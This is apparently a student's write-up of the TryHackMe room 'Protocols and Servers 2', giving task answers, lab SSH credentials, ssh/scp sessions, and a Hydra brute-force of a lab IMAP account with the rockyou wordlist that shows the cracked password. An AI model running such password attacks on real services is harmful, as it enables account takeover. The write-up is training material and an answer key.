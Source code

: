 <h3> Welcome to the <em>TryHackMe ...</em></h3>
<h1>Jr Penetration Tester learning path> Network Security</h1>
<h2>Protocols and Servers 2</h2>
<p>Learn about attacks against passwords and cleartext traffic; explore options for mitigation via SSH and SSL/TLS..</p>
<p>October 24, 2024<br></p>

<div style="display: flex; justify-content: center; align-items: center;">
    <img src="https://github.com/user-attachments/assets/059fcb9a-bc8e-4e4b-a95e-bfe4a4006ba1" width="150px" height="150px"/>
</div>
<br>

![image](https://github.com/user-attachments/assets/4c9fbd68-8291-43fc-b015-6ed759d37403)

<p>Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s key part of my 26-day-streak in <a href="https://www.wicys.org/benefits/security-training-scholarship/">WiCyS SANS Security Training</a> Stage 2 Program. Let´s get started!!<br><br>
Access this TryHackMe Room clicking <a href="https://tryhackme.com/r/room/protocolsandservers2">Protocols and Servers 2</a></p>

<h2>Task 1 - Introduction</h2>

<p>The <a href="https://tryhackme.com/r/room/protocolsandservers"> Protocols and Servers</a> covered many protocols:<br>

<p>This room introduces the user to a few protocols commonly used, such as:<br>

<ul style="list-style-type:square">
    <li>Telnet</li>
    <li>HTTP</li>
    <li>FTP</li>
    <li>SMPT</li>
    <li>POP3</li>
    <li>IMAP</li>
</ul></p>

<p>Servers implementing these protocols are subject to different kinds of attacks. To name a few, consider:</p>
.....

> 1.1 - <em>We suggest that you start the AttackBox and the virtual machine as you proceed to tackle the following tasks. You can connect to the different services over Telnet for better practice and learning experience.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Task 2 - Sniffing Attack</h2>

<h2>Task 3 - Man-in-the-Middle (MITM) Attack</h2>

<h2>Task 4 - Transport Layer Security (TLS)</h2>

<h2>Task 5 - Secure Shell (SSH)</h2>

> 5.1 - <em>Use SSH to connect to 10.10.88.138 as <code>mark</code> with the password <code>XBtc49AB</code>. Using uname -r, find the Kernel release?</em><br>
>> <strong>5.15.0-119-generic</strong><br>
<p><br></p>

<pre><code>$ ssh mark@10.10.88.138
The authenticity of host '10.10.88.138 (10.10.88.138)' can't be established.
ECDSA key fingerprint is SHA256:/p96HCwgx3tw33jFVI+KrI1D6+g9UitHy9uMT3rJjdI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.88.138' (ECDSA) to the list of known hosts.
mark@10.10.88.138's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 25 Oct 2024 12:01:20 AM UTC

  System load:  0.16              Processes:             131
  Usage of /:   59.7% of 6.50GB   Users logged in:       0
  Memory usage: 35%               IPv4 address for eth0: 10.10.88.138
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

13 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Sep 20 13:36:07 2021 from 10.20.30.1
mark@ip-10-10-88-138:~$ 
</code></pre>

<p></p>

<pre><code>$ mark@ip-10-10-88-138:~$ uname -r
5.15.0-119-generic
mark@ip-10-10-88-138:~$ 
</code></pre>

<p><br></p>

> 5.2 - <em>Use SSH to download the file <code>book.txt</code> from the remote system. How many KBs did <code>scp</code> display as download size?</em><br>
>> <strong>415</strong><br>
<p><br></p>

<pre><code>$ scp mark@10.10.88.138:/home/mark/book.txt ~
mark@10.10.88.138's password: 
book.txt                                                                  100%  415KB  19.3MB/s   00:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/53df2492-fc1c-4509-ab13-9ea6bdf41843)


<h2>Task 6 - Password Attack</h2>

> 6.1 - <em>We learned that one of the email accounts is <code>lazie</code>. What is the password used to access the IMAP service on 10.10.88.138?</em><br>
>> <strong>butterfly</strong><br>
<p><br></p>

<pre><code>$ hydra -l lazie -P /usr/share/wordlists/rockyou.txt 10.10.88.138 imap
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-10-25 01:40:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking imap://10.10.88.138:143/
[143][imap] host: 10.10.88.138   login: lazie   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-10-25 01:41:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/e2819e22-0a5c-4f7d-9aa9-ca33864e1f0e)


<h2>Task 7 - Summary</h2>

<p>This room covered various protocols, their usage, and how they work under the hood. Three common attacks are:</p>
<p>.........</p>

![image](https://github.com/user-attachments/assets/5706b437-50fb-4625-847c-8ff3cb209c08)

<p>Hydra remains a very efficient tool that you can launch from the terminal to try the different passwords. We summarize its main options in the following table.</p>

![image](https://github.com/user-attachments/assets/1937a220-4dc9-432c-96f2-c9ef87c40c7d)



> 7.1 - <em>By now, you have completed the eighth room of the Network Security module. Please proceed to the final room of this module to test your skills.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Room Complete</h2>

<p>Keep learning, keep growing!<br>
    
<a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a></p>

![image](https://github.com/user-attachments/assets/ed02e782-b132-4dd1-87de-d8b7428074b4)

<h2>WiCyS SANS Security Training, Stage 2</h2>
<p></p>Following I share the status of my journey in <a href="https://www.wicys.org/benefits/security-training-scholarship/">WiCyS SANS Security Training</a> Stage 2 Program.</p>

![image](https://github.com/user-attachments/assets/001a831f-b466-4c1a-91a9-0e7369e70896)


<p></p>

<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>
